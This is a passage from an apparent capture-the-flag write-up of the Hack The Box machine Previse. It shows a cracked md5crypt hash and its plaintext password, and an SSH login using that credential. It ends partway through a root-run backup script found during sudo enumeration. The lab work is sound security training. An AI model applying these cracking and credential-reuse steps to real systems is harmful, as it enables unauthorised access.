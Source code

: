     
    
    oxdf@parrot$ hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt
    ...[snip]...
    $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
    ...[snip]...
    

### SSH

That password works over SSH as m4lwhere:

    
    
    oxdf@parrot$ sshpass -p 'ilovecody112235!' ssh m4lwhere@10.10.11.104
    ...[snip]...
    m4lwhere@previse:~$
    

And I can grab `user.txt`:

    
    
    m4lwhere@previse:~$ cat user.txt
    1e9de647************************
    

## Shell as root

### Enumeration

m4lwhere can run `sudo` on a script, `access_backup.sh`:

    
    
    m4lwhere@previse:~$ sudo -l
    [sudo] password for m4lwhere: 
    User m4lwhere may run the following commands on previse:
        (root) /opt/scripts/access_backup.sh
    

There’s an important line missing from that output where `sudo` has been
misconfigured to allow the next exploit. I’ll dig into that in Beyond Root.

The script is backing up logs to `/var/backups`:

    
    
    #!/bin/bash
    
    # We always make sure to store logs, we take security SERIOUSLY here
    
    # I know I shouldnt run this as root but I cant figure it out programmatically on my account
    # This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time
    